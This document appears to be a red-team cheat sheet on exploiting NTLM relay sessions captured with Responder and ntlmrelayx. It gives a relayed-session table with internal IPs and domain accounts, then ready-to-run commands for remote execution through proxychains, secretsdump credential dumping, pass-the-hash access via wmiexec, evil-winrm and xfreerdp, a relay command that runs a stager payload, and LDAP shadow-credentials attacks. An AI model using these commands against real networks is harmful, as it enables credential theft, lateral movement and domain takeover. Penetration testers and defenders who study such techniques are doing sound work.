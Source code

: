 # Utilizing Sock sessions with Responder and NtlmRelayX

```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

# Testing Sock Access from NtlmRelayX: 

## SMB:
Using SMBExec:
- proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38
- proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38
Using Smbclient
- proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38
- proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38

## Secrets Dump
- proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38
- proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38

## Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230
- wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230

Evil-WinRM:
- evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230

XfreeRDP: 
- xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230

# Other NtlmRelayX Commands: 
## In Kali:
### SMB
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami
### Ldap
- impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

## Python Impacket: 
### SMB
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- ntlmrelayx.py -tf smb-targets.txt -c whoami
### LDAP
- ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
-  https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
-  https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers